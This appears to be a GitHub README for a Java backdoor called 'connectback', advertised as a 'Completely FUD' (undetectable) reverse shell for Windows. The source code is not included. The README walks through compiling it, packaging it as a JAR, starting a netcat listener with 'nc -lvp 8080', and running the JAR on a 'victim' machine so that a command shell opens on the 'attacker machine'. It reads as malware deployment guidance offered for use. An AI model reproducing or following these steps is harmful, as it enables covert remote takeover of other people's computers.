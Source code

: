 This is a Java based Completely FUD backdoor reverse shell, for Windows XP,Vista,7,8.x,10 , coded entirely in java.

This project was developed using openjdk version "11.0.3", but the Libraries used in this project dates back from JDK 1.0 release, thus, this will work on any version of Java. 
NB: the victim should have either the same version of Java or a few notches under, installed on the system, to avoid unwanted JNI errors.
This ideally should not be an issue as most users update their JRE runtime , either manually or is set to Auto update (which is most common).

To compile the file , simply run javac connectback.java.
This will create the .class file.
Create a manifest file, as per the JDK version on your device.
Filename : connectback.mf
Format:

Manifest-Version: 11.0.3
Main-Class: connectback

Now This can be packed into a .JAR executable file using :jar cmf connectback.mf connectback.jar connectback.class connectback.java

Start a netcat listner using nc -lvp 8080 ( I've used port 8080 as my listening port)

Port the .JAR file to the windows machine and execute it either by using java -jar connectback.jar or simply double clicking on the file , and you should instantly get your reverse shell on the attacker machine.
Once the CMD prompt appears on the Linux/kali/attacker system, hit enter once , on the cmd prompt and then type in the desired commands.
This ,you will have to repeat everytime , you type in a command.
This is NOT a bug, but the way the java libraries interact with netcat.

Cheers
#Captain_Nemo

connectback

https://www.youtube.com/watch?v=BaPRKLP9B_4
